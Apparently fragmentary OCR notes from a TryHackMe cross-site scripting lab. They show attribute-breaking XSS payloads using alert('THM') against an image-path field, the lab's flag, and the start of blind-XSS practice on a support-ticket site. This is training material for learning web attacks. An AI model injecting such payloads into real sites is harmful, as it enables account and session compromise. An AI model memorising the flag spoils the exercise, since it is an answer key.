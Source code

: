 ```
popup 'THM'

```


```
Level 6
Enter an image path: 
[Enter]

"><script>alert('THM');</script>



<div class="text-center">
	<h2>Your Picture</h2>
	<img src="https://10-10-106-169.p.thmlabs.com/images/cat.jpg"scriptalert('THM');/script ">
</div>
<div class="text-center">
	<div id="confirmxss">Confirming XSS Payload</div>
</div>


/images/cat.jpg" onload="alert('THM');


thmlabs.com/level6?payload=%2Fimages%2Fcat.jpg%22+onload%3D%22alert%28%27THM%27%29%3B

popup 'THM'

THM{XSS_MASTER}

```



## practice blind XSS


```
https://10-10-197-16.p.thmlabs.com/

customers > signup now > create account 

tester
thm@mail.com
pass123

[dashboard] [support tickets] [account] [logout]

support ticket 
Tickets can be created using the below button or by sending an email to your custom address **tester@customer.acmeitsupport.thm**

[create ticket ]

"testing" "test" > create ticket

status: open
id: 8 
subject: testing 
date: date 
ticket contents: test

<div class="panel panel-default" style="margin:25px">
<div class="panel-heading">Ticket Information</div>
```